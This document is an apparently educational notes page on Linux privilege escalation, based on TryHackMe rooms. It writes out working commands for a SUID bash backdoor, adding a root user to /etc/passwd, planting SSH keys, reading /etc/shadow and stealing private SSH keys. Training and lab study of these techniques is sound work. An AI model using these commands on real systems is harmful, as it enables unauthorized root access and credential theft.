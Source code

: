```yaml
---
description: >-
  Go from a low privilege user, to a higher one to gain access to thing you're
  not supposed to
---
```


# Linux Privilege Escalation

If a system has been set up well, you might not instantly get all the privileges on the machine when you get in. It's pretty common to have a webserver be run as a low privilege user, so if it ever gets hacked the attacker might not be able to do much on the server.

The point of Privilege Escalation is to abuse features of the system to execute commands as more privileged users, and thus escalating your own privileges on the system.​ Most of the information was from the Linux PrivEsc rooms on TryHackMe:

{% embed url="https://tryhackme.com/room/linprivesc" %}
First PrivEsc room with some basic techniques
{% endembed %}

{% embed url="https://tryhackme.com/room/linuxprivesc" %}
Second Privesc room with more advanced techniques and a lot of detail
{% endembed %}

## Getting Shells

Often in privilege escalation you're letting a high-privilege user execute some command. Sometimes you can't directly execute a shell as that user, and have to run some other command to send a way to get a shell somewhere. One simple way is to just execute a reverse shell as that user. Then you will get a privileged reverse shell in your listener. See [#reverse-shells](../hacking-linux-boxes.md#reverse-shells "mention") for some examples of this.&#x20;

Another easy way if you already have access to the box, is to create a [suid.md](suid.md "mention") binary of bash that the target user is the owner of. The safest way to do this is to first copy /bin/bash to another location, which will make the owner of the file the user that executed the command. Then to later get back those privileges just add the SUID bit with `chmod +s` to take over the privileges of the owner when you execute the program as a low-privilege user.&#x20;

{% code title="Let target execute:" %}
```shell
cp /bin/bash /tmp/bash; chmod +xs /tmp/bash
```
{% endcode %}

{% code title="Low-privilege user" %}
```shell-session
$ /tmp/bash -p  # -p to maintain privileges
# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```
{% endcode %}

### Write files

If you can only write to files, without running commands, you can write to some specific locations to later execute commands. If you can append data to a file, try adding a root user to `/etc/passwd` with a password that you know yourself. Then you can log in as that user and get root privileges:

```shell-session
$ openssl passwd hacker  # Generate password
aQeFa8LxllpT.
```

Then if you somehow append this following line to the `/etc/passwd` file, you will be able to log in as root using the password "hacker":

```shell
hacker:aQeFa8LxllpT.:0:0:root:/root:/bin/bash
```

```shell-session
$ su hacker
Password: hacker
# id
uid=0(root) gid=0(root) groups=0(root)
```

If the box uses SSH, another way would be to append your own public key to the `.ssh/authorized_keys` file in their home directory. This allows you entry to the user via SSH because you were explicitly allowed. Just `cat` out your own `~/.ssh/id_rsa.pub` starting with `ssh-rsa`, and copy it to a new line in the `.ssh/authorized_keys` file. Then you are allowed to log in simply using SSH:

```shell-session
$ ssh root@$IP
```

{% hint style="warning" %}
Default installations of SSH don't allow to log in as `root`. To check this look at the `PermitRootLogin` option in `/etc/ssh/sshd_config`:

```shell-session
$ grep PermitRootLogin /etc/ssh/sshd_config
PermitRootLogin yes
```
{% endhint %}

### Read files

Being able to read files as a privileged user can allow you to read sensitive information. The first being the shadow hashes in `/etc/shadow`, which you can then copy to your own machine to crack (See more info in [#cracking-shadow-hashes](../../cryptography/hashing/cracking-hashes.md#cracking-shadow-hashes "mention")). Then if you have cracked a password you can just log in as that user using `su`:

```shell-session
$ su root
Password: password123
# id
uid=0(root) gid=0(root) groups=0(root)
```

Another common file to read are SSH private keys. These are located in the user's home directory in a `.ssh` folder. To find the home directory for a user you can check `/etc/passwd`:

```shell-session
$ cat /etc/passwd | awk -F: '{print $1, $6}'
root /root
...
www-data /var/www
user /home/user
```

This folder often contains an `id_rsa` file which is only readable by the user, but contains the private key that can be used to log into SSH as that user. When you are able to read this file, copy it to your attacking machine and use `ssh -i` to use the private key:

{% code title="Attacker" %}
```shell-session
$ cat id_rsa  # Saved private key
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAtc7FngGLGz9oReOq2b7k2grTgvQGtP+Yax3it73ZGuxASVKq
...
BAmcHcSorWfiOeasmS2HsoAqsBJr8DqDVAo4274CYxZooDqq+6Rimg==
-----END RSA PRIVATE KEY-----
$ chmod 600 id_rsa  # Set correct permissions to allow SSH to use it
$ ssh -i id_rsa root@$IP
# id
uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
